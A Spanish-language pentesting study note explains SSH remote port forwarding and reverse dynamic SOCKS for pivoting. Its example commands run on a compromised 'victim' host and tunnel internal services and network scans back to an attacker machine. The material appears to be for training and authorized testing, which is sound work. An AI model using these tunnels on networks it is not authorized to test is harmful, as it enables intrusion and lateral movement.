

---
tags:
  - Pivoting
  - Pentesting/Movimiento-Lateral
  - Linux
Fecha de actualización: 2026-07-19
Nota previa: "[[02 - Local y dynamic port forwarding con SSH]]"
Nota siguiente: "[[04 - Tunneling con Meterpreter]]"
Area: "[[Pivoting y túneles.base|Pivoting y túneles]]"
---
---

`-L` y `-D` asumen que **puedes conectar hacia el pivot**. Muchas veces no: el pivot está tras NAT, o su `22` entrante está bloqueado, o solo tienes una shell en él (sin servidor SSH). <mark style="background: #ADCCFFA6;">`-R` invierte la dirección: es el pivot quien te conecta a ti, y el puerto reenviado nace en tu máquina.</mark>

# Remote port forwarding (`-R`)

Sintaxis `-R [bind:]rport:destino:dport`, ejecutado **desde el pivot** hacia el atacante:

```shell-session
# Ejecutado en el pivot: expone el 172.16.5.15:80 interno en el 8080 del atacante
victim$ ssh -R 8080:172.16.5.15:80 kali@10.10.14.5 -N
```
```shell-session
# En el atacante: el servicio interno aparece en tu localhost
attacker$ curl http://127.0.0.1:8080
```

<mark style="background: #FFB86CA6;">La conexión SSH sale del pivot **hacia** ti (saliente, la que el firewall sí deja), pero el puerto de escucha vive en tu lado</mark>. Por eso funciona donde `-L` no llega: solo requiere que el pivot pueda alcanzar tu `22`.



# Cuándo `-R` en vez de `-L`

- **Pivot tras NAT / sin `22` entrante**: no puedes `ssh -L` hacia él, pero él sí sale hacia ti.
- **Solo tienes una shell** en el pivot (no es servidor SSH): desde esa shell lanzas `ssh -R` hacia tu caja para tender el túnel.
- **Traer de vuelta un `handler`**: exponer en tu atacante un servicio que solo vive en la red interna.

# Reverse dynamic: un SOCKS inverso sin herramientas extra

OpenSSH moderno (7.6+) admite `-R` **dinámico**: un proxy SOCKS que, en lugar de estar en el pivot, se abre en tu atacante y enruta *hacia dentro* de la red del pivot:

```shell-session
# En el pivot: abre un SOCKS en el 1080 del atacante que enruta a la red interna
victim$ ssh -R 1080 kali@10.10.14.5 -N
```
```shell-session
attacker$ proxychains4 -q nmap -sT -Pn 172.16.5.0/24
```

<mark style="background: #8000E1A6;">Esto te da un pivot SOCKS completo cuando solo tienes salida desde el objetivo</mark> — el mismo resultado que `-D` pero en el escenario inverso, y sin subir `chisel` ni `ligolo`.

> [!warning]+ `GatewayPorts` y el bind a `0.0.0.0`
> Por defecto, el puerto que abre `-R` en el atacante solo escucha en `127.0.0.1`. Si necesitas que otra máquina (o un `bind` a `0.0.0.0`) lo use, activa `GatewayPorts clientspecified` en el `sshd_config` de tu atacante y usa `-R 0.0.0.0:8080:...`. Es el *gotcha* nº1 de `-R`: "el túnel está pero no responde desde fuera de localhost".

Cuando el pivot lo controlas con una sesión de Metasploit, todo esto se automatiza con `autoroute` y `socks_proxy`: [[04 - Tunneling con Meterpreter]].
